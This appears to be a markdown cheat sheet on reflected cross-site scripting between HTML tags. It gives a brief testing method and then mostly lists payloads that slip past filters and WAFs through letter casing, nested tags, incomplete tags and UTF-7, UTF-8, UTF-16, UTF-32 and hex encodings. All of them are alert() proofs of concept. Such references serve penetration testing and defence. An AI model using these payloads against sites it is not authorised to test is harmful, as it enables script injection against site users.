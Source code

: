 ## XSS between HTML tags
 When the XSS context is text between HTML tags, you need to introduce some new HTML tags designed to trigger execution of JavaScript.

**EX**:
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

### methodolgy 
- find reflected input between HTML tags
- try to insert a html tag if it is blocked
   - check if it WAF or Web Based Security  
   - try every possible tag you can use the help of [portswigger XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
   - try [Bypass techniques](#bypass)
- make a poc 


### Bypass
i will focus on bypasses that introduce HTML tags


#### Bypass case sensitive

```html
<sCrIpt>alert(1)</ScRipt>
```

#### Bypass tag blacklist

```html
<script x>
<script x>alert('XSS')<script y>
```

#### Bypass with removed chars 
```html
<sCR<script>iPt>alert(1)</SCr</script>IPt>
```

#### Bypass with incomplete html tag
```html
<img src='1' onerror='alert(0)' <
```
#### Bypass ">" using nothing

```html
<svg onload=alert(1)//
```
#### Bypass using UTF-7
```html
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-

=> <img src="1" onerror="alert(1)" />
```

#### Bypass using UTF-8
```html
< = %C0%BC = %E0%80%BC = %F0%80%80%BC
> = %C0%BE = %E0%80%BE = %F0%80%80%BE
' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
" = %CA%BA
' = %CA%B9

```

#### Bypass using UTF-16
```html
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00

===  <svg/onload=alert()>

utf-16 encoded then url encoded 
```

#### Bypass using UTF-32
```html
%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E


=>  <svg/onload=alert()>

utf-32 encoded then url encoded 

```

#### bypass using Hex 
```
3c7376672f6f6e6c6f61643d616c65727428293e

=> <svg/onload=alert()>
```
